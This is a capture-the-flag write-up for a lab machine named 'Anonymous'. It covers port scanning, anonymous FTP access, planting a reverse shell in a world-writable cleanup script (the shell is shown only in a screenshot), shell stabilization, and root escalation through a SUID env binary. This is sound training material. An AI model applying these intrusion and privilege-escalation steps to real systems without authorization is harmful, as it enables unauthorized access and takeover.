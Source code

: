 # Anonymous Write-up

## Initial Enumeration

The only initial information provided is an IP address. We begin by conducting an Nmap scan to identify open ports and services:

```bash
nmap -sC -sV -v {target_ip}
```

### Scan Results:
```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

## SMB Enumeration

![image](https://github.com/user-attachments/assets/3ac52289-3ebd-41d9-952c-aa23652037e8)

![image](https://github.com/user-attachments/assets/5d393185-fb1a-4fcb-84e6-d91eb2bc5c3b)

After downloading both of the photos, no information could be found using stegseek or steghide. Seems to be a dead end.

## FTP enumeration

Logging into the ftp server using anonymous login credentials, there is 1 directory containing 3 files.
```
📂 /
 ├── 📂 scripts
 │   ├── 📄 clean.sh            (-rwxr-xrwx) # A simple cleanup file that writes logs to removed_files.log
 │   ├── 📄 removed_files.log   (-rw-rw-r--) # Log file for removed files
 │   ├── 📄 to_do.txt           (-rw-r--r--) # Note to disable anonymous login since it's unsafe (Understatement of the century)
```

## FTP Exploitation

 Since there is write permissions to the clean.sh file, writing in a simple reverse shell and setting up a listener provides us a way of getting a shell. Because cleanup.sh is automated to run, when starting the listener it may take a moment to catch the shell.
 ![image](https://github.com/user-attachments/assets/b3865e25-347a-45a0-87d2-b8c8d418ce1e)

### Shell Stabilization

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```
After the shell has stabilized that first flag can be found in user.txt

## Privilege Escalation

Starting with basic enumeration, I like to check for any sudo commands available and suid permissions.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
Using https://gtfobins.github.io/ we find that the env suid bit is set. 

```bash
/usr/bin/env /bin/sh -p
```
And with that we've obtained root privileges!

![image](https://github.com/user-attachments/assets/cd85dbd7-7688-41ba-af1a-84f683aa31e2)


### Notes:
- Enhance understanding of GTFObin binary commands.

